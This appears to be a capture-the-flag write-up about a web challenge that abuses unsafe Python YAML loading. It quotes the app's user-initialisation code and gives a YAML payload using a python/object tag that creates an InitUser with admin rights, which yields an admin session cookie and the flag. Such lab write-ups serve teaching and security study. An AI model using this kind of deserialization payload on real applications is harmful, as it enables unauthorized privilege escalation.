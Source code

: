 # YAML

Python can load YAML in either safe or unsafe mode. For some reason, you can create arbitrary python objects through YAML. Because of this, we can interact with the user creation function however we want. Looking at the source code we can find this:
```py
def __init__(self, info):
	userinfo = info.get("user", info)



	if isinstance(userinfo, dict):
		self.username = userinfo["username"]
		self.notes = []
		self.is_admin = False

	elif isinstance(userinfo, InitUser):
		# copy over attributes from other User object
		for attr in user_attrs:
			setattr(self, attr, getattr(userinfo, attr))
```

Since this can be interacted with via POST requests, we can submit YAML data as our payload instead of the expected username. We can use this YAML snippet to create a new `InitUser` object with admin permissions:
```YAML
user: !!python/object:classes.InitUser
    username: admin
    notes:  []
    is_admin: True
```

This request returns a cookie containing a session ID for an admin user. We can set our session ID to this cookie to access the /admin page, which has the flag.
